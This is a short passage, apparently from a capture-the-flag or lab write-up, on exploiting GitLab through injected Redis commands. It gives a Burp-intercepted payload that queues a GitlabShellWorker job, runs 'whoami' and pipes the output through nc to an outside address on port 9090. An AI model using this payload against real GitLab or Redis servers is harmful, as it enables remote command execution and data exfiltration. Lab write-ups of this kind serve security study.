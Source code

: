 <img src="./img/testcvegit.png"  width="650"/>

- Intercepted with `burp` and added the following payload

```ruby
multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| whoami |nc 10.10.14.181 9090 \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```
